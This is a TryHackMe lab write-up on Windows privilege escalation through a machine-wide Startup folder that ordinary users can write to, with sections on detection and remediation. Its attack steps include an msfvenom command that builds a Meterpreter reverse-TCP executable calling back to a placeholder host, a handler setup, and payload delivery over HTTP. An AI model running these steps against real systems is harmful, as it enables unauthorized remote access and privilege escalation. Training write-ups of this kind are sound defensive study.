








# Weak Startup Folder Permissions — Windows Privilege Escalation

> **Platform:** TryHackMe  
> **Room:** Windows PrivEsc Arena  
> **Task:** 5  
> **Operating System:** Windows 7 Professional  
> **Technique:** Writable All Users Startup Folder  
> **Initial Context:** Standard local user  
> **Result:** Payload executed under the privileged logon account  
> **MITRE ATT&CK:** T1547.001 — Registry Run Keys / Startup Folder  
> **CWE:** CWE-732 — Incorrect Permission Assignment for Critical Resource  

---

## Disclaimer

This write-up documents an authorized TryHackMe training environment.

Target addresses, VPN addresses, passwords, flags, and sensitive values have been removed or replaced with placeholders. The generated executable used in the laboratory is not included in this repository.

---

## Executive Summary

The Windows host contained an insecure machine-wide Startup directory:

```text
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

Permission analysis using `icacls` showed that the built-in `Users` group had full access to the directory:

```text
BUILTIN\Users:(F)
```

This allowed a low-privileged user to create or place executable files inside a Startup location processed for users who log on to the system.

A Meterpreter reverse TCP executable named `y.exe` was generated on Kali and transferred directly into the machine-wide Startup folder.

The low-privileged user then logged off, and the privileged `TCM` account logged on. During logon initialization, Windows processed the Startup folder and executed `y.exe` under the newly logged-on user's security context.

The payload connected back to the Metasploit handler. Meterpreter reported:

```text
TCM-PC\TCM
```

This demonstrated that code planted by a low-privileged account was executed under the context of a more privileged user.

---

## Attack Path

```text
Inspect the All Users Startup folder permissions
                    ↓
Confirm BUILTIN\Users has Full Access
                    ↓
Configure a Meterpreter reverse TCP handler
                    ↓
Generate y.exe with matching callback settings
                    ↓
Host the executable on Kali
                    ↓
Download y.exe into the All Users Startup folder
                    ↓
Log off the low-privileged account
                    ↓
Log on using the privileged TCM account
                    ↓
Windows processes the machine-wide Startup folder
                    ↓
y.exe executes under the TCM user context
                    ↓
Meterpreter connects back to Kali
```

---

# 1. Understanding Windows Startup Folders

Windows supports Startup folders that automatically launch applications when a user logs on.

There are two important Startup folder scopes.

## Current-user Startup folder

```text
C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

Files placed here normally execute only when that specific user logs on.

## Machine-wide Startup folder

```text
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

This directory is associated with all users of the system.

Programs placed in this directory may be processed when different users log on, including privileged users.

The machine-wide directory is therefore a security-sensitive location. Standard users should not be able to create, overwrite, or replace executable content inside it.

---

# 2. Detecting the Vulnerable Permissions

The Startup directory permissions were inspected with:

```cmd
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

The important result was:

```text
BUILTIN\Users:(F)
```



## What is icacls?

`icacls.exe` is a Windows command-line utility used to display or modify discretionary Access Control Lists assigned to files and directories.

An Access Control List contains Access Control Entries that define which security principals may interact with an object and what operations they may perform.

## Understanding the command

```cmd
icacls.exe
```

Starts the ACL inspection utility.

```text
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

Is the directory whose permissions are being examined.

Because no permission-modification options were supplied, the command only displayed the existing ACL.

---

# 3. Understanding the ACL Result

The key Access Control Entry was:

```text
BUILTIN\Users:(F)
```

## BUILTIN\Users

```text
BUILTIN\Users
```

Is a local Windows group that includes normal local users.

The low-privileged `user` account was covered by this permission entry.

## Full access

The permission abbreviation:

```text
F
```

means:

```text
Full access
```



Full access can provide capabilities such as:

- Listing directory contents
- Creating new files
- Creating subdirectories
- Reading files
- Writing files
- Overwriting files
- Deleting files
- Changing attributes
- Modifying permissions
- Taking ownership

For this attack, the critical permission was the ability to create an executable inside the Startup folder.

## Common icacls permission abbreviations

| Abbreviation | Meaning |
|---|---|
| `F` | Full access |
| `M` | Modify |
| `RX` | Read and execute |
| `R` | Read only |
| `W` | Write only |
| `D` | Delete |

## Common inheritance flags

| Flag | Meaning |
|---|---|
| `(OI)` | Object inherit; files inherit the entry |
| `(CI)` | Container inherit; directories inherit the entry |
| `(IO)` | Inherit only |
| `(I)` | The entry was inherited from a parent object |

The finding that mattered in this task was:

```text
BUILTIN\Users:(F)
```

This permission applied to the Startup directory and allowed the low-privileged user to create the payload there.

---

# 4. Why the Permission Was Dangerous

The vulnerable trust relationship was:

```text
Low-privileged user can write to a machine-wide Startup folder
                            ↓
Windows treats files in that folder as logon applications
                            ↓
A privileged user logs on
                            ↓
Windows launches the low-privileged user's file
                            ↓
The file runs under the privileged user's context
```

The Startup mechanism itself is legitimate.

The vulnerability was the permission assignment that allowed an untrusted user to control content processed by that mechanism.

A secure machine-wide Startup directory should not allow standard users to add or replace executable content.

---

# 5. Difference Between Task 1 and Task 5

Both tasks abused automatic execution during user logon, but the vulnerable resource was different.

## Task 1 — Weak Autorun Executable Permissions

An existing Registry Run entry already referenced:

```text
C:\Program Files\Autorun Program\program.exe
```

The low-privileged user replaced the executable referenced by that entry.

## Task 5 — Weak Startup Folder Permissions

No existing Run entry or executable needed to be replaced.

The low-privileged user could create a new executable directly inside:

```text
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

Windows processed the new file during the next applicable user logon.

| Task | Vulnerable Resource | Attack Action |
|---:|---|---|
| 1 | Existing autorun executable | Replace the trusted binary |
| 5 | Machine-wide Startup directory | Plant a new executable |

---

# 6. Preparing the Metasploit Handler

Metasploit was started on Kali:

```bash
msfconsole
```

A generic handler was configured:

```text
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <KALI_VPN_IP>
set LPORT 4444
set ExitOnSession false
run
```



## Important payload correction

The room instructions display an incomplete payload name similar to:

```text
windows//reverse_tcp
```

The payload used in the screenshots was:

```text
windows/meterpreter/reverse_tcp
```

This is necessary because the final session uses the Meterpreter command:

```text
getuid
```

## multi/handler

```text
exploit/multi/handler
```

Does not exploit the Startup folder vulnerability by itself.

It waits for the generated payload to initiate a connection back to Kali.

The privilege escalation occurs because Windows later executes the planted file under the privileged user's context.

## LHOST

```text
LHOST <KALI_VPN_IP>
```

Specifies the reachable Kali callback address embedded in the payload.

In the TryHackMe environment, this is normally the address assigned to the VPN interface.

## LPORT

```text
LPORT 4444
```

Specifies the TCP port used for the reverse connection.

The same port must be configured in both the handler and the generated executable.

---

# 7. Generating the Meterpreter Executable

The payload was generated using:

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=<KALI_VPN_IP> \
LPORT=4444 \
-f exe \
-o y.exe
```



## Command explanation

```bash
msfvenom
```

Generates payloads in executable, script, and shellcode formats.

```bash
-p windows/meterpreter/reverse_tcp
```

Selects a Windows Meterpreter reverse TCP payload.

```bash
LHOST=<KALI_VPN_IP>
```

Embeds the Kali callback address.

```bash
LPORT=4444
```

Embeds the callback port.

```bash
-f exe
```

Packages the payload as a Windows Portable Executable.

```bash
-o y.exe
```

Saves the result as:

```text
y.exe
```

The output showed that Metasploit selected the x86 architecture for the generated payload.

The generated executable is not included in this repository.

---

# 8. Hosting the Payload on Kali

A temporary HTTP server was started from the directory containing `y.exe`:

```bash
python3 -m http.server 80
```

The server listened on:

```text
0.0.0.0:80
```

The Windows host requested:

```text
GET /y.exe HTTP/1.1
```

The response status was:

```text
200
```



The `200` response confirmed that the Windows host successfully retrieved the executable.

A browser request for:

```text
favicon.ico
```

returned `404`, which was unrelated to the attack.

---

# 9. Placing the Payload in the Startup Folder

From Windows, the Kali HTTP server was opened using:

```text
http://<KALI_VPN_IP>/
```

The payload was selected and saved directly into:

```text
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```



This operation succeeded because:

```text
BUILTIN\Users:(F)
```

allowed the low-privileged user to create files inside the directory.

The payload was now registered for automatic processing through its location alone.

No Registry Run key was created, and no existing startup item needed to be modified.

---

# 10. Triggering Execution

The low-privileged user logged off after placing `y.exe` in the Startup directory.


The privileged account used in the laboratory was:

```text
TCM
```



During the new logon session, Windows initialized the user's desktop and processed the machine-wide Startup directory.

Windows found:

```text
y.exe
```

and launched it under the security context associated with the `TCM` logon session.

The payload then initiated its reverse TCP connection to the Kali handler.

---

# 11. What Happened Behind the Scenes

The complete process was:

```text
The low-privileged user logs on
                    ↓
The user inspects the All Users Startup directory
                    ↓
BUILTIN\Users has Full access
                    ↓
The user places y.exe inside the Startup directory
                    ↓
The user logs off
                    ↓
TCM successfully authenticates
                    ↓
Windows creates the TCM logon session and access token
                    ↓
Windows starts the desktop shell
                    ↓
The shell processes machine-wide Startup items
                    ↓
Windows launches y.exe
                    ↓
y.exe inherits the TCM user context
                    ↓
The payload connects to Kali
                    ↓
Metasploit creates a Meterpreter session
```

The payload did not elevate itself.

The privilege transition occurred because Windows launched the executable during the privileged user's logon.

---

# 12. Receiving and Verifying the Session

When `y.exe` executed, the Metasploit handler received a Meterpreter connection.

The session was accessed using:

```text
sessions
sessions -i <SESSION_ID>
```

The user identity was checked with:

```text
getuid
```

The result was:

```text
Server username: TCM-PC\TCM
```



This confirmed that the executable did not run under the original low-privileged `user` account.

It ran under the account that triggered the machine-wide Startup folder during logon.

The observed transition was:

```text
TCM-PC\user
        ↓
TCM-PC\TCM
```

---

# 13. Account Identity Versus Full Elevation

The `getuid` command confirms the account associated with the Meterpreter process:

```text
TCM-PC\TCM
```

However, account identity alone does not fully prove that the process has a high-integrity administrative access token.

With User Account Control, a member of the local Administrators group may initially operate with a filtered token.

Additional verification can include:

```text
getprivs
```

Then enter a Windows shell:

```text
shell
```

Run:

```cmd
whoami
whoami /groups
whoami /priv
net localgroup administrators
```

Evidence to review includes:

- Whether `TCM` belongs to the local Administrators group
- The process integrity level
- Available Windows privileges
- Access to protected system resources

The screenshot proves execution under `TCM-PC\TCM`. It does not prove execution as:

```text
NT AUTHORITY\SYSTEM
```

---

# 14. Conditions Required for Exploitation

Successful exploitation required:

1. The machine-wide Startup folder existed.
2. A low-privileged user could write to it.
3. The user could create an executable file in the directory.
4. A more privileged user later logged on.
5. Windows processed the Startup item.
6. The target could reach the Kali VPN address.
7. The handler and payload settings matched.
8. The callback port was reachable.
9. Antivirus or application-control protections did not block the payload.

The critical vulnerability was:

```text
BUILTIN\Users:(F)
```

The remaining conditions enabled the laboratory exploitation path.

---

# 15. Security Classification

## Vulnerability

```text
Weak Machine-Wide Startup Folder Permissions
```

## Attack type

```text
Startup Folder Binary Planting
```

## Impact

```text
Code Execution Under Another User's Logon Context
```

## MITRE ATT&CK

```text
T1547.001 — Boot or Logon Autostart Execution:
Registry Run Keys / Startup Folder
```

This technique covers placing programs in Startup folders so that Windows executes them during user logon.

Depending on the folder and the user who logs on, the technique may support:

- Persistence
- Privilege escalation
- Repeated execution

## CWE

```text
CWE-732 — Incorrect Permission Assignment for Critical Resource
```

The machine-wide Startup directory was a critical resource because Windows automatically processed its contents during user logon.

---

# 16. Detection Opportunities

Defenders should monitor:

```text
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

Useful detection opportunities include:

- Audit ACLs assigned to the machine-wide Startup folder.
- Alert when standard users create files in the directory.
- Monitor executable and script creation in Startup folders.
- Detect newly created `.exe`, `.bat`, `.cmd`, `.vbs`, `.js`, or `.lnk` files.
- Monitor processes launched immediately after interactive logon.
- Correlate Startup-folder file creation with later process execution.
- Detect unusual outbound connections from Startup applications.
- Monitor unsigned executables launched from Startup locations.
- Use file-integrity monitoring on machine-wide startup directories.
- Compare Startup contents against an approved baseline.
- Review parent directory permissions and inherited ACLs.

A suspicious sequence would be:

```text
Standard user creates executable in Startup folder
                    ↓
A different or privileged user logs on
                    ↓
The executable launches
                    ↓
An unusual outbound connection begins
```

---

# 17. Remediation

The machine-wide Startup directory should follow least-privilege permissions.

A secure configuration should normally allow:

```text
NT AUTHORITY\SYSTEM       FullControl
BUILTIN\Administrators    FullControl
BUILTIN\Users             ReadAndExecute
```

Recommended remediation includes:

- Remove full access from `BUILTIN\Users`.
- Remove write and modify permissions from standard users.
- Review inherited permissions from parent directories.
- Remove unapproved Startup items.
- Validate the hashes and signatures of legitimate Startup programs.
- Monitor Startup directory changes.
- Use AppLocker or Windows Defender Application Control.
- Prevent unsigned executables from running through startup locations.
- Apply file-integrity monitoring.
- Audit both current-user and machine-wide Startup folders.
- Investigate executables created by users who do not own the later logon session.
- Review privileged account logon activity after suspicious Startup changes.

Correcting only an individual malicious file is insufficient if the directory remains writable.

The directory ACL itself must be corrected.

---

# 18. Lessons Learned

This task demonstrates that a directory can create a privilege-escalation path even when no existing executable is vulnerable.

The most important enumeration questions were:

```text
Which Startup folders apply to all users?
Who can create files inside them?
Which users will process those files at logon?
Can a low-privileged user plant executable content?
Will a privileged account later trigger it?
```

Task 1 and Task 5 both abused logon execution, but through different control points:

```text
Task 1 → Existing autorun executable was writable
Task 5 → Machine-wide Startup directory was writable
```

The central lesson is:

> A machine-wide Startup folder is only secure when unprivileged users cannot create or modify the content that Windows executes during other users' logon sessions.

---

## Tools Used

| Tool | Purpose |
|---|---|
| `icacls.exe` | Inspect the Startup folder ACL |
| Metasploit Framework | Receive and manage the Meterpreter connection |
| `msfvenom` | Generate the Windows Meterpreter executable |
| Python HTTP Server | Transfer the executable to Windows |
| Internet Explorer | Download the payload into the Startup directory |
| Meterpreter `getuid` | Verify the resulting user context |

---

## Evidence Summary

| Evidence | Finding |
|---|---|
| `icacls` output | `BUILTIN\Users` had full access |
| Permission legend | `F` represented full access |
| Handler configuration | Meterpreter reverse TCP listener prepared |
| Payload generation | `y.exe` created with matching callback settings |
| Startup-folder placement | Payload saved in the All Users Startup directory |
| HTTP logs | `y.exe` downloaded successfully |
| Logoff | Low-privileged session ended |
| Privileged logon | `TCM` triggered Startup processing |
| Meterpreter result | Session opened as `TCM-PC\TCM` |

---

## References

- [Microsoft Learn — icacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)
- [MITRE ATT&CK T1547.001 — Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/)
- [Microsoft Learn — StartupFolder Property](https://learn.microsoft.com/en-us/windows/win32/msi/startupfolder)
- [CWE-732 — Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
